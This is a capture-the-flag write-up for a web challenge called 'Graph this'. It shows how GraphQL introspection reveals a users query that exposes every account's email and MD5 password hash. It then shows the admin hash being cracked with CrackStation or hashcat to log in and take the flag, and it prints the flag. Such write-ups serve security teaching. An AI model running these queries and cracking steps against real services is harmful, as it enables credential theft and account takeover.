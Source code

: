 # Graph this

# 1. Start 

Naturally the user will create a user. 
After looking around they will notice that there is nothing to do.
After opening the network tab they can see that a request is made to a backend server
with the endpoint /graphql/. 

The query:
```json
{
  "query": "{me {id username email secretNote __typename}}"
}
```

# 2. Exploring the API
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql

To get all the "allowed" query stuff we can:
```json
{
  "query": "{__schema{types{name,fields{name}}}}"
}
```
This will respond with a lot of information.
But we are after:

- Query fields
  - users
- edges
- node
- Field fields
  - id
  - username
  - email
  - password
  - ...


# 3. Getting the users
Then we can craft the query:
```json
{
  "query": "query{users{edges{node{username email password}}}}"
}
```

The response:

```json
{
    "data": {
        "users": {
            "edges": [
                {
                    "node": {
                        "username": "admin",
                        "email": "admin@login.no",
                        "password": "53bf833e0570f3c8b990bad976deb86a"
                    }
                },
                {
                    "node": {
                        "username": "tinius",
                        "email": "tinius@login.no",
                        "password": "efa77747c47c42fa5791e56f8f863dd4"
                    }
                }
            ]
        }
    }
}
```

After inspecting the admin password we can see that it is md5 (A week hash)

# 4. Cracking the password
We can use an online tool to crack the password.

https://crackstation.net/ or a local tool like hashcat.

The password is: `lunchbox1`

Then we can login with the admin email and password and get the flag.

Secret: flag{md5_p455w0rd5_4r3_n07_53cur3!}
